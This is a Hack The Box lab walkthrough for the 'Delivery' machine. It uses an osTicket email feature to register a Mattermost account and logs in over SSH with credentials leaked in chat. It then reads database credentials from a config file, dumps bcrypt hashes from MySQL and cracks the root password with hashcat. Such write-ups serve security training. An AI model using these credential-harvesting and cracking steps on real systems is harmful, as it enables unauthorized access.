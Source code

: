 # Target
| Category          | Details                                                  |
|-------------------|----------------------------------------------------------|
| 📝 **Name**       | [Delivery](https://app.hackthebox.com/machines/Delivery) |  
| 🏷 **Type**       | HTB Machine                                              |
| 🖥 **OS**         | Linux                                                    |
| 🎯 **Difficulty** | Easy                                                     |
| 📁 **Tags**       | osTicket, Mattermost, hashcat                            |

# Scan
```
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-title: Welcome
|_http-server-header: nginx/1.14.2
8065/tcp open  http    Golang net/http server
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Mattermost
```

# Attack path
1. [Gain initial foothold with credentials discovered in Mattermost internal communication](#gain-initial-foothold-with-credentials-discovered-in-mattermost-internal-communication)
2. [Escalate to `root` user with variant of credentials discovered in Mattermost internal communication](#escalate-to-root-user-with-variant-of-credentials-discovered-in-mattermost-internal-communication)

### Gain initial foothold with credentials discovered in Mattermost internal communication

#### Add `delivery.htb` and `helpdesk.delivery.htb` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB Delivery]
└─$ echo "$TARGET delivery.htb helpdesk.delivery.htb" | sudo tee -a /etc/hosts
10.129.175.168 delivery.htb helpdesk.delivery.htb
```

#### Create ticket using osTicket to generate 'internal' email address
This step must be done manually due to captcha verification in place. After ticket is created an email address for this particular ticket will be created as well (e.g. 7830834@delivery.htb). Sending message to this email address will post a reply in scope of said ticket. As we can access ticket details we will exploit this functionality to create internal email inbox. 

#### Create Mattermost account using generated email address and obtain activation link via osTicket 
```
┌──(magicrc㉿perun)-[~/attack/HTB Delivery]
└─$ OSTICKET_EMAIL=john.doe@server.com
OSTICKET_NUMBER=7830834
MATERMOST_USER=$RANDOM$RANDOM
MATTERMOST_PASSWORD='P$ssW0rd!123'

curl -s http://delivery.htb:8065/api/v4/users -d "{\"email\": \"$OSTICKET_NUMBER@delivery.htb\", \"username\": \"$MATERMOST_USER\", \"password\": \"$MATTERMOST_PASSWORD\"}" -o /dev/null && \
CSRF_TOKEN=$(curl -s -c cookies.txt http://helpdesk.delivery.htb/view.php | grep -Po 'name="__CSRFToken__"\s+value="\K[^"]+') && \
ACTIVATION_TOKEN=$(curl -L -s -b cookies.txt http://helpdesk.delivery.htb/login.php -d "__CSRFToken__=$CSRF_TOKEN&lemail=$OSTICKET_EMAIL&lticket=$OSTICKET_NUMBER" | grep -oP 'token=\K[^&]+') && \
echo "\nURL: http://delivery.htb:8065/do_verify_email?token=$ACTIVATION_TOKEN&email=$OSTICKET_NUMBER%40delivery.htb\nEmail: $OSTICKET_NUMBER@delivery.htb\nPassword: $MATTERMOST_PASSWORD"

URL: http://delivery.htb:8065/do_verify_email?token=ippnb9jof8j6k1msx1az1ecqzczwca5ffw673du1mse4mgwihdfb8bosstbgc3oc&email=7830834%40delivery.htb
Email: 7830834@delivery.htb
Password: P$ssW0rd!123
```

#### Use browser to activate and login to Mattermost account
After navigating to internal channel we can see that `root` user:
* Posts `maildeliverer:Youve_G0t_Mail!` credentials
* Warns about resuing of `PleaseSubscribe!` password and that its variants could be used to break hashes

![Internal channel](images/internal_channel.png)

#### Use discovered credentials to gain access over SSH
```
┌──(magicrc㉿perun)-[~/attack/HTB Delivery]
└─$ ssh maildeliverer@delivery.htb           
maildeliverer@delivery.htb's password: 
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jan  5 06:09:50 2021 from 10.10.14.5
maildeliverer@Delivery:~$ id
uid=1000(maildeliverer) gid=1000(maildeliverer) groups=1000(maildeliverer)
```

### Escalate to `root` user with variant of credentials discovered in Mattermost internal communication

#### Obtain Mattermost MySQL connection credentials
```
maildeliverer@Delivery:~$ grep -oP '"DataSource": "\K[^@]+' /opt/mattermost/config/config.json
mmuser:Crack_The_MM_Admin_PW
```

#### Use Mattermost MySQL connection credentials to dump user hashes
```
maildeliverer@Delivery:~$ mysql -h 127.0.0.1 -u mmuser -p'Crack_The_MM_Admin_PW' --batch --skip-column-names -e "SELECT Username, Password FROM Users WHERE Password != '';" mattermost | tr '\t' ':' > hashes.txt && cat hashes.txt
c3ecacacc7b94f909d04dbfd308a9b93:$2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK
5b785171bfb34762a933e127630c4860:$2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G
root:$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
ff0a21fc6fc2488195e16ea854c963ee:$2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq
2031116825:$2a$10$5BzAOssqG8nArFiBE5iNZeqRkwmZB3Dhy8RACrmSa3Bg6jvRel8bi
9ecfb4be145d47fda0724f697f35ffaf:$2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm
```

#### Use `hashcat` to break exfiltrated hashes with variants of `PleaseSubscribe!` password
```
┌──(magicrc㉿perun)-[~/attack/HTB Delivery]
└─$ hashcat -m 3200 -a 3 hashes.txt --username 'PleaseSubscribe!?d?d' --quiet
root:$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
```

#### Use discovered credentials to escalate `root` user 
```
maildeliverer@Delivery:~$ su root
Password: 
root@Delivery:/home/maildeliverer# id
uid=0(root) gid=0(root) groups=0(root)
```